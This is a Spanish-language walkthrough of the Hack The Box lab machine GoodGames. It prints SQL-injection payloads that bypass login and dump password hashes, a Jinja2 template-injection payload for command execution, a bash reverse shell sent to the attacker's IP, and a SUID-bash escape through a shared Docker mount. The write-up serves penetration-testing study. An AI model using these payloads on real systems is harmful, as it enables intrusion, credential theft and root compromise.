---

# Ficha técnica 


| **Campo**                | **Detalle**           |
| ------------------------ | --------------------- |
| **Nombre**               | GoodGames             |
| **Dificultad**           | Fácil (Easy)          |
| **SO**                   | Linux                 |
| **Creador**              | TheCyberGeek          |
| **Fecha de Lanzamiento** | 21 de febrero de 2022 |
## Vectores de Ataque y Técnicas

### 1. Explotación Web (User Access)

- **Inyección SQL (SQLi):** Identificación de vulnerabilidad en el formulario de inicio de sesión para bypass de autenticación y extracción de credenciales de la base de datos.

- **Server-Side Template Injection (SSTI):** Explotación del motor de plantillas **Jinja2** en el perfil de usuario para lograr ejecución remota de comandos (RCE).

- **Cracking de Hashes:** Uso de **John the Ripper** (o herramientas online como CrackStation) para descifrar hashes MD5 obtenidos de la base de datos.

### 2. Post-Explotación y Pivoting

- **Enumeración de Red Interna:** Uso de scripting básico en Bash, para identificar servicios activos en la red interna del contenedor (descubrimiento de la IP del host `172.19.0.1`).

- **Escalada en Docker:** Explotación de montajes de volúmenes compartidos entre el contenedor y el host.


### 3. Escalada de Privilegios (Root Access)

- **Abuso de Binarios SUID:** Manipulación de permisos en binarios del sistema (como `/bin/bash`) aprovechando la configuración insegura del contenedor para obtener una shell de root en la máquina host.

---

# 1. Reconocimiento

---

## Prueba de Conectividad (ICMP)

Se verificó el alcance del objetivo mediante el envío de paquetes ICMP utilizando la herramienta `ping`.

**Ejecución:**

```bash
ping -c 4 10.129.10.98
```

### Análisis de Resultados

- **Conectividad:** Se recibieron las 4 respuestas (0% _packet loss_), confirmando la disponibilidad y estabilidad del host.

- **Identificación del SO:** El valor **TTL (Time To Live)** de **63** sugiere que el objetivo es una máquina **Linux**, considerando el decremento de una unidad por el nodo intermediario (VPN/Gateway) respecto al valor por defecto (64).



---

## Escaneo de puertos TCP 

Se realizó un escaneo completo (_Full Port Scan_) sobre el rango total de 65,535 puertos TCP para identificar servicios expuestos.

**Ejecución:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.10.98
```

- **`-sS`**: _TCP SYN Stealth Scan_ para agilizar el descubrimiento sin completar el Three Way Handshake

- **`--min-rate 5000`**: Envío de paquetes a una tasa mínima de 5000 por segundo.

- **`-Pn -n`**: Omisión de resolución DNS y de descubrimiento de host previo (_No-Ping_).
### Análisis de resultados

El escaneo reportó un único puerto en estado `open`:

- **Puerto 80 (HTTP):** Servicio web activo.

Dada la naturaleza del servicio y la amplia superficie de ataque que suelen presentar las aplicaciones web, se priorizará la **enumeración detallada del puerto 80** antes de proceder con el escaneo de protocolos UDP.

---

# 2. Enumeración

---

## Enumeración de Servicios y Versiones (Puerto 80)

Para profundizar en el servicio identificado, se realizó un escaneo selectivo utilizando el motor de scripts de Nmap (**NSE**) y la detección de versiones de servicios (**-sV**).

**Comando ejecutado:**

```bash
nmap -p80 -sCV 10.129.10.98
```

### Análisis de resultados

|**Componente**|**Detalle Técnico**|
|---|---|
|**Servidor / Framework**|**Werkzeug httpd 2.0.2** (Python 3.9.2)|
|**Título HTTP**|GoodGames \| Community and Store|
|**Cabecera Server**|Werkzeug/2.0.2 Python/3.9.2

#### Observaciones Críticas:

- **Tecnología:** La presencia de **Werkzeug** indica que la aplicación está desarrollada sobre un micro-framework de Python (probablemente **Flask**).

- **Vectores Potenciales:** La versión 2.0.2 de Werkzeug es susceptible a **Remote Code Execution (RCE)** si el modo _Debug_ está habilitado en producción, lo que permitiría el acceso mediante la consola interactiva si se obtiene el PIN de seguridad.

- **Contexto del Objetivo:** El título sugiere una plataforma interactiva con funcionalidades de **e-commerce y comunidad**, lo que implica la existencia de bases de datos, paneles de autenticación y posibles puntos de inyección de datos.

---

## Inspección visual de página web

Se realizó un recorrido manual de la aplicación para identificar rutas críticas y funcionalidades expuestas.

### Directorio de Rutas Identificadas

- **`/blog`**: Sección con publicaciones de usuarios. Representa una fuente de información para la **enumeración de nombres de usuario**, útiles en ataques de fuerza bruta.

- **`/coming-soon`**: Página de mantenimiento/próximo lanzamiento. Sin funcionalidades interactivas aparentes en esta fase.

- **Panel de Autenticación (`/login`)**: Interfaz de inicio de sesión para usuarios y administradores.

#### **Conclusión de la Fase**

Tras la inspección, el **panel de autenticación** se establece como el objetivo prioritario para la auditoría. La falta de otras vulnerabilidades lógicas evidentes en el contenido estático desplaza el enfoque hacia pruebas de **Inyección de Código** (SQLi) y **Fuerza Bruta** sobre las credenciales de los usuarios recolectados en el blog.



---

## Análisis del Panel de Autenticación

Se evaluó la seguridad del formulario de inicio de sesión para identificar posibles vectores de inyección.

**Hallazgos iniciales:**

- **Validación de entrada:** El formulario implementa un filtro en el lado del cliente (Frontend) que restringe el campo de usuario a un formato de correo electrónico válido (`example@domain.com`), bloqueando intentos directos de **SQL Injection (SQLi)** desde el navegador.

- **Evasión de controles:** Para omitir estas restricciones, se utilizó **Burp Suite** con el fin de interceptar la petición HTTP **POST** y manipular los parámetros directamente antes de que lleguen al servidor.



### Manipulación de Peticiones y Bypass de Autenticación

Tras la interceptación de la solicitud con **Burp Suite**, se confirmó que las validaciones de formato (E-mail) solo se ejecutaban en el lado del cliente (_Client-Side_), permitiendo la modificación arbitraria de los parámetros en el cuerpo de la petición **POST** antes de su envío al servidor.

**Inyección de Payload SQL**

Se procedió a alterar el parámetro de autenticación mediante una **Inyección SQL clásica** para subvertir la lógica de la consulta en el backend.

- **Payload utilizado:** `' OR 1=1-- -`

- **Propósito:** * La comilla simple (`'`) cierra la cadena de texto de la consulta original.

    - La expresión lógica `OR 1=1` fuerza una condición siempre verdadera.
    
    - El doble guion y espacio (`-- -`) comenta el resto de la sentencia SQL original, invalidando cualquier verificación posterior de contraseña.




#### Resultado de la Ejecución

La manipulación de la _Query_ permitió el **bypass de autenticación**, logrando el acceso al panel administrativo sin poseer credenciales válidas, confirmando así una vulnerabilidad de **SQL Injection** crítica en el punto de entrada de la aplicación.



---

## Enumeración de Base de Datos y Descubrimiento de Subdominios

Tras el bypass exitoso, se obtuvo acceso al panel de perfil del usuario **admin**, identificando la dirección de correo: `admin@goodgames.htb`. Al evaluar las funciones de cambio de contraseña, se determinó que no eran viables para una toma de control persistente en ese punto.

 **Identificación de Infraestructura Interna**

Durante la inspección del panel, se halló una referencia al subdominio:

- **`internal-administration.goodgames.htb`**

Este hallazgo es crítico, ya que apunta a una interfaz de gestión interna. Para acceder a este nuevo panel, el siguiente paso lógico es la **exfiltración de datos** mediante la SQLi previamente identificada en el formulario de login principal.



### Exfiltración de datos con SQLI

Con el objetivo de extraer información de la base de datos, se utilizó el módulo **Repeater** de Burp Suite para realizar pruebas iterativas sobre el parámetro vulnerable, analizando las variaciones en las respuestas del servidor.

**Identificación del Número de Columnas**

Se empleó la cláusula `ORDER BY` para determinar el número de columnas presentes en la consulta `SELECT` original. Esta técnica se basa en provocar un error en la base de datos cuando se hace referencia a un índice de columna inexistente.

**Proceso de Inyección:**

1. **Límite Superior:** Se inyectó `' ORDER BY 100-- -`. El servidor devolvió un error (o una respuesta genérica de fallo), confirmando que el número de columnas es inferior a 100.

2. **Refinamiento Iterativo:** Se redujo el valor de forma descendente hasta observar un cambio significativo en la respuesta HTTP.

3. **Confirmación:** Al inyectar `' ORDER BY 4-- -`, el servidor devolvió una respuesta exitosa con un **Content-Length de 9267**, validando que la consulta original maneja exactamente **4 columnas**.

**Importancia del Hallazgo**

Determinar el número exacto de columnas es un requisito indispensable para proceder con una inyección basada en **UNION SELECT**, la cual permitirá mapear el esquema de la base de datos (tablas y columnas) y exfiltrar los registros de la tabla de usuarios.

#### Identificación de Columnas Reflejadas

Una vez determinado que la consulta original maneja **4 columnas**, se procedió a identificar cuál de ellas permite la visualización de datos en la respuesta HTTP (_Data Reflection_).

**Prueba de Inyección UNION**

Se ejecutó un payload `UNION SELECT` para observar en qué sección de la interfaz web se inyectan los valores controlados por el atacante.

**Comando de prueba inicial:**

```sql
' UNION SELECT 1,2,3,4-- -
```

**Validación del Punto de Inyección:** Para confirmar la capacidad de extraer cadenas de texto (_strings_), se sustituyó el cuarto valor por un marcador alfanumérico:

- **Payload:** `' UNION SELECT 1,2,3,'test'-- -`

#### **Análisis de Resultados**

Al inspeccionar el código fuente de la respuesta, se localizó el marcador de prueba dentro de las etiquetas de encabezado de la interfaz de usuario:

**Fragmento de respuesta HTTP:**

```html
<h2 class="h4">
	Welcome test
</h2>
```

**Conclusión técnica:** La **columna 4** es el **punto de reflexión vulnerable**. Este parámetro será utilizado como canal de exfiltración para realizar consultas a las tablas del sistema (`information_schema`) y, posteriormente, extraer las credenciales administrativas.

---

## Consultas SQL y extracción de información

Identificado el punto de reflexión en la cuarta columna, se procedió con una enumeración sistemática del motor de base de datos para extraer credenciales de acceso.

### 1. Identificación del Contexto

Se determinó el nombre de la base de datos en uso para filtrar las consultas posteriores.

- **Payload:** `' UNION SELECT 1,2,3,database()-- -`
- **Resultado:** `main`

### 2. Enumeración de Tablas

Se consultó el diccionario de datos para listar las tablas pertenecientes al esquema identificado.

- **Payload:** `' UNION SELECT 1,2,3,group_concat(table_name) FROM information_schema.tables WHERE table_schema='main'-- -`

- **Tablas Identificadas:** `blog`, `blog_comments`, `user`

### 3. Mapeo de Columnas (Tabla: user)

Se analizaron los campos de la tabla `user` para localizar vectores de autenticación.

- **Payload:** `' UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name='user'-- -`

- **Columnas Identificadas:** `id`, `email`, `password`, `name`

### Extracción de Registros (Dump)

Finalmente, se realizó el volcado de la información sensible concatenando los campos críticos.

- **Payload:** `' UNION SELECT 1,2,3,group_concat(email,':',name,':',password) FROM user-- -`

**Evidencia Obtenida:** 

| Usuario   | Email                 | Hash (MD5)                         |
| :-------- | :-------------------- | :--------------------------------- |
| **admin** | `admin@goodgames.htb` | `2b22337f218b2d82dfc3b6f77e7cb8ec` |

---

## Cracking de Hash (Ataque de Diccionario)

Tras el volcado de la base de datos, se procedió a realizar un análisis del hash obtenido (`2b22337f218b2d82dfc3b6f77e7cb8ec`). Por su longitud de 32 caracteres y composición hexadecimal, se identificó como un algoritmo **MD5**.

### Ejecución del Ataque

Se utilizó la herramienta **John the Ripper** para realizar un ataque de fuerza bruta basado en diccionario, empleando la lista de palabras estándar `rockyou.txt`.

**Comando ejecutado:**

```bash
john --format=Raw-MD5  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

#### **Análisis de Resultados**

El proceso de cracking fue exitoso, revelando la credencial en texto plano en pocos segundos:

- **Usuario:** `admin@goodgames.htb`

- **Password:** `superadministrator`

**Conclusión de la Fase:** Con las credenciales administrativas comprometidas, el siguiente paso consiste en la **autenticación en el panel de administración interna** (`internal-administration.goodgames.htb`) identificado previamente, con el fin de explorar funciones que permitan la ejecución remota de comandos (RCE).

---

# 3. Explotación (Acceso inicial)

---

## Acceso al Panel Administrativo

Utilizando las credenciales exfiltradas (`admin:superadministrator`), se validó el acceso al subdominio de gestión interna. Tras una auditoría de las funciones disponibles, se identificó el endpoint `/settings` como un vector de entrada de datos persistente.

Se observó que el campo destinado al "Nombre de Usuario" en la configuración del perfil se reflejaba directamente en la interfaz tras ser procesado por el servidor. Dada la infraestructura previa basada en **Python (Werkzeug/Flask)**, se sospechó de una gestión insegura de plantillas mediante el motor **Jinja2**.



**Prueba de Concepto (PoC):** Para confirmar la vulnerabilidad, se inyectó una expresión matemática simple en el campo de nombre:

- **Payload:** `{{7*7}}`

### Análisis de Resultados

Tras guardar los cambios, la aplicación renderizó el valor calculado **`49`** en el encabezado de la página en lugar de la cadena literal.

**Interpretación técnica:** El servidor evaluó la expresión dentro de las llaves dobles, lo que confirma una vulnerabilidad de **SSTI**. Este fallo permite evadir el contexto de la aplicación para interactuar directamente con los objetos de Python en memoria, abriendo una vía directa hacia la **Ejecución Remota de Comandos (RCE)**.



#### Verificación de Ejecución Remota de Comandos (RCE)

Confirmada la interpretación de plantillas, se procedió a validar la capacidad de interactuar con el sistema operativo subyacente mediante la importación del módulo `os` en el contexto de **Jinja2**.

**Prueba de Conectividad Out-of-Band (ICMP)**

Para evitar falsos positivos y confirmar el tráfico de salida, se ejecutó un comando `ping` hacia la máquina atacante mientras se monitorizaba la interfaz de red.

**Comando en la máquina atacante (Escucha):**

```bash
sudo tcpdump -i tun0 icmp
```

**Payload inyectado en el perfil (`/settings`):**

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ping -c 4 10.10.16.77').read() }}
```

**Análisis de Resultados**

- **Confirmación de RCE:** La recepción de los 4 paquetes ICMP en `tcpdump` validó la ejecución de comandos arbitrarios.

- **Identificación de Segmentación:** Se observó que la dirección IP de origen de los paquetes no coincidía con la IP pública del objetivo (`10.129.10.98`), sino que pertenecía a un rango de red privada interna.

**Conclusión técnica:** Este comportamiento confirma que la aplicación web se ejecuta dentro de un **contenedor (Docker)**. 



##### Intrusión

Para ganar acceso a la máquina objetivo se preparo la máquina atacante para que espere a la escucha de conexiones entrantes con: `Netcat` y se ejecutó el payload para enviar una **Reverse Shell** desde el objetivo.

**Preparación del atacante:**

```bash
nc -nlvp 3000
```

**Payload en el objetivo:**

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.77/3000 0>&1"').read() }}
```

**Resultado:**

Se obtuvo acceso al contenedor de **Docker** como el usuario: `root`.



---

## Movimiento lateral

Tras obtener una shell interactiva dentro del contenedor, se procedió a la enumeración del sistema de archivos para localizar vectores de escalada o datos sensibles.

Al inspeccionar el directorio `/home`, se identificó la presencia de la carpeta personal del usuario **augustus**. No obstante, al contrastar esta información con el archivo de cuentas del sistema (`/etc/passwd`), se confirmó que el usuario no existe localmente en el contenedor.

**Evidencia Técnica:**

- **Directorio detectado:** `/home/augustus`

- **Verificación de usuario:** `grep "augustus" /etc/passwd` (Resultado nulo).



### Enumeración de puertos TCP desde el contenedor

Tras identificar que el contenedor operaba en una red segmentada, se procedió a auditar la dirección IP de la puerta de enlace (`172.19.0.1`), que corresponde a la interfaz interna de la máquina host. Debido a la ausencia de herramientas de red avanzadas en el contenedor, se empleó un _script_ en Bash aprovechando el descriptor de archivos `/dev/tcp`.

**Comando ejecutado:**

```bash
for port in {1..65535}; do (echo > /dev/tcp/172.19.0.1/$port) >/dev/null 2>&1 && echo "Puerto $port: ABIERTO"; done
```

#### Análisis de resultados

El escaneo reveló dos servicios críticos expuestos hacia la red interna:

- *Puerto 22/TCP (SSH)*
- *Puerto 80/TCP (HTTP)*

**Explotación de Reutilización de Credenciales (Lateral Movement)**

Dada la existencia del directorio `/home/augustus` y la contraseña obtenida previamente en la fase de _cracking_ (`superadministrator`), se probó un ataque de **reutilización de credenciales** a través del servicio SSH del host.

**Ejecución:**

```bash
ssh augustus@172.19.0.1
```

**Resultado:** La autenticación fue exitosa, permitiendo el acceso a la máquina objetivo como el usuario **augustus** y logrando así el **escape del contenedor Docker**.



---

# 4. Post-Explotación 

---

## Escalada de Privilegios: Abuso de Montajes Compartidos (Docker Escape)

Tras acceder al host como el usuario **augustus**, se identificó un vector de escalada basado en la configuración insegura del volumen compartido (_bind mount_) entre el host y el contenedor. Dado que el usuario `root` dentro del contenedor tiene privilegios para modificar metadatos de archivos en directorios montados, se procedió a la creación de un binario con privilegios elevados.

 **Preparación del Vector (Host: augustus)**

Desde la sesión SSH en el host, se copió el binario original del intérprete de comandos al directorio compartido.

```bash
cp /bin/bash /home/augustus/bash
```

 **Inyección de Privilegios SUID (Contenedor: root)**

Regresando a la shell del contenedor (donde se opera con el usuario root), se manipularon las propiedades del archivo para otorgarle persistencia de privilegios. Al ser un volumen compartido, los cambios en los permisos se reflejan inmediatamente en el host.

**Comandos ejecutados en el contenedor:**

```bash
chown root:root bash
chmod u+s bash
```

- **`chown root:root`**: Establece al superusuario como propietario del binario.

- **`chmod u+s`**: Activa el bit **SUID** (_Set User ID_), permitiendo que cualquier usuario que ejecute el archivo lo haga con los privilegios del propietario (root).




### Ejecución y Obtención de Shell de Root (Host: augustus)

De vuelta en la sesión SSH del host, se ejecutó el binario modificado para elevar privilegios de manera efectiva.

**Comando ejecutado:**

```bash
./bash -p
```

**Nota:** El parámetro `-p` es esencial para que Bash no descarte los privilegios efectivos (EUID) al detectar que se ejecuta con SUID.

#### Análisis de Resultados

La ejecución fue exitosa, otorgando una shell con privilegios de **root** en el host principal. Se procedió a la lectura del archivo de flag final: `/root/root.txt`.



---

